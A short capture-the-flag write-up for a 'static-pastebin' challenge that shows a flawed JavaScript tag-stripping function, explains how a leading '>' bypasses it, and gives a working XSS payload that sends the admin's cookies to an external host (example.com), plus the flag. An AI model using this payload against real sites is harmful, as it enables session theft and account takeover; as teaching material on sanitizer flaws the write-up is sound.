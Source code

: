 # static-pastebin (374 solves)

Source: [script.js](./script.js)

```js
function clean(input) {
	let brackets = 0;
	let result = "";
	for (let i = 0; i < input.length; i++) {
		const current = input.charAt(i);
		if (current == "<") {
			brackets++;
		}
		if (brackets == 0) {
			result += current;
		}
		if (current == ">") {
			brackets--;
		}
	}
	return result;
}
```

The script appears to clean our input by stripping tags. However, there is a flaw. If we include an unmatched close bracket at the beginning of our exploit, the clean function will allow us to include html tags unchanged. The rest of the exploit is classic XSS in order to steal the admin cookies.

Final Exploit:

```html
><img src="" onerror="a=document.createElement('script'),a.setAttribute('src','https://example.com/x.js?cookie='+document.cookie),document.body.appendChild(a)" />
```

Flag: `flag{54n1t1z4t10n_k1nd4_h4rd}`
